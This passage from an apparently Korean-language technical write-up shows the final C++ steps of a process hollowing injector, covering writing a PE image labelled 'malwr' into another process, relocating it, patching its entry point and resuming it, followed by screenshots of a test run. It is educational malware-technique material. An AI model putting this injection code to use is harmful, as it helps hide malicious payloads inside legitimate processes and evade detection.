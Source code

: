 ```cpp
			{
				ULONG_PTR buildAddr = malwr.memAlloc(malwr_size); // Step5

				relativeOffset = malwr.getRelativeOffset(malwrAddr);
				malwr.setImagebase(malwrAddr);

				injector.writeHeader(buildAddr, (ULONG_PTR)malwr.peHeader(), malwr.peHeaderSize()); // Step6: 헤더를 기록

				// Step 7
				ULONG_PTR currentSection = malwr.getFirstSection();

				for (int nSection = 0; nSection < malwr.numberOfSection(); ++nSection)
				{
					injector.writeSection(buildAddr, (ULONG_PTR)malwr.peHeader(), currentSection);
					currentSection = malwr.getNextSection(currentSection);
				}

				// Step 8: relocate
				malwr.relocate(buildAddr, relativeOffset);

				// Step 9, 10
				injector.write(malwrAddr, buildAddr, malwr_size, false);
				normalProcess.patchEntryPoint(malwrAddr, malwr.addressOfEntryPoint());
				normalProcess.resume();
			}
		}
	}

	return 0;
}

```

---

---

# 3. 작성한 Process Hollowing 프로그램 실행 화면

![program](https://github.com/user-attachments/assets/57fff65a-d408-4b87-8c31-391668b18810)

[사진 25] hollow_test.exe 실행 화면

![process_list](https://github.com/user-attachments/assets/79ba792b-8559-4b0b-80c7-b22789f208d2)

[사진 26] 프로세스 목록

Process Hacker를 사용해 프로세스의 목록을 확인해본 결과, `hollow_test.exe` 프로세스 아래에 `explorer.exe(파일 탐색기)` 및 `conhost.exe`가 존재하는 것을 확인할 수 있다.
